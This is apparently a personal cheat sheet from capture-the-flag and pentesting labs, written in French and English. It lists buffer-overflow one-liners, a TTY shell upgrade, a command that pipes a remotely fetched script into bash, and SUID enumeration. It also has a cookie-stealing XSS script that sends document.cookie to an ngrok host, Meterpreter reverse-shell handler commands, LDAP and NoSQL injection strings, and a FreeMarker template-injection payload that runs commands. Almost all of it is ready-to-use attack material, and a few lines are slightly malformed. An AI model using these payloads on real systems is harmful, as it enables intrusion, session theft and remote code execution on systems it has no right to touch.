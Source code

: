 # FISHINGIG
- goldfish 

# FORENSIC

tsurugi lab

# REGGEX SUBLIME

- ()      => cree un bloc ($1)
- []      => les caracteres a chercher sont a l'interieur
- \*       => en boucle minimum 0
- \+       => en boucle minimum 1
- ^       => tant qu'on a pas (carac suivant)
- .+      => tout tant qu'on a pas de newline

examples :
        (pub fn) ([a-z_]*)([^:\n]+):([a-zA-Z-]+)([ u0-9]*) .+

# GDB
| code      | Function                          |
|-----------| ----------------------------------|
|P      | Function address |
|si     | next instruction |
|finish | End current function |

x/(?1)wx (?2) => print (?2) le nombre de cases memoires suivant l'instruction (?2)

examples :
print les 30 cases memoires suivantes de $esp
* x/30wx $esp

cat send standard entry into the pipe
* (perl -e 'print "A"x128 . "wathever"' ; cat) | ./ch15

Other implementation for x64 in Python to write the address in little endian 
- { python -c 'from struct import pack ; print "B"*280 + pack ("<Q", 0x4005e7)' ; cat' } | ./ch35

x86 chr() to write hexa
 - (python -c 'print chr(0x08)*4 + "\xbc\xfa\xff\xbf"' ; cat ) | ./ch16

examples:
- { python -c 'from struct import pack; print "B" * 280 + pack("<Q", 0x400556)'; cat } | ./binaire 
- ( python -c 'print chr(0x08)*4 + "\xbc\xfa\xff\xbf"' ; cat) | binaire

# REVERSE SHELL
```
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
```

# BASH

--noprofile
Do  not  read  either  the system-wide startup file /etc/profile or any of the personal
initialization files ~/.bash_profile, ~/.bash_login, or ~/.profile.  By  default,  bash
reads these files when it is invoked as a login shell (see INVOCATION below).

--norc 
Do  not  read  and execute the system wide initialization file /etc/bash.bashrc and the
personal initialization file ~/.bashrc if the shell is interactive.  This option is  on 
by default if the shell is invoked as sh.

# PRIVESC
Get proper TTY shell
```
python -c 'import pty; pty.spawn("/bin/bash")'
or 
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=screen
ctrl + z 
stty raw -echo; fg
```

Create simple http server
```
python3 -m http.server
```

Curl a file and pipe it to bash
```
curl 10.10.14.249:9999/LinEnum.sh | bash
```
wget a file 
```
wget -O LinEnum.sh 10.10.14.249:9999
```
List processes
```
ps auxwww
```
Binaries capabilities
```
getcap -r / 2>/dev/null
```
Analyze file
```
file "yolo"
```
Find SUID files
```
find / -perm -4000 -exec ls -l {} \; 2>/dev/null
```
Start a bash without a profile
```
sh -i /home/nobody/.ssh/ssh_key USER@IP -t bash --noprofile --norci  
```                                                                 

# CRYPTO
```
cat file | 
```
Decode openssl -salted
```
bruteforce-salted-openssl -t 6 -f ~/Téléchargements/rockyou.txt -c AES-256-CBC -d SHA256 decoded_drupal.txt -1
```
Encode openssl
```
openssl enc -in LEFICHIERDENTREE -out LEFICHIERDESORTIE -d -AES-256-CBC -md sha256 -pass 'pass:LEPASSQUETATROUVE'
```

# XSS
```
"onfocus="alert(1)"autofocus="
```
## NGROK
```
<script>window.location.href='http://ngrok.io/?cookie='%2bdocument.cookie</script>
```

# METERPRETER

Handle connexions
```
use exploit/multi/handler
```
Windows handler
```
set payload windows/meterpreter/reverse_tcp
```
Interact with sessions
```
sessions -i 1                                   
```
background the meterpreter so we can use other tools
```
ctrl + z
```

windows exploit suggester (session number need to be added to the options)
```
use post/multi/recon/local_exploit_suggester
```


# DIVERS
```
socat tcp-listen:2222, fork tcp 192.168.100.12:22
```

LDAP injection tester username avec ) si error
```
username=* pass=*)(& 
```
### nosql
Regex to use until you have the good size then inser chars before the '.' who means "Everything"
```
NOSQL usr_name[$ne]=h4cker&usr_password[$ne]=abc [$ne] == OK
NOSQL usr_name[$regex]=.{1}&usr_password[$ne]=abc 
```

## template injection 
```
https://portswigger.net/blog/server-side-template-injection 
```
```
<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("cat SECRET_FLAG.txt") }
```
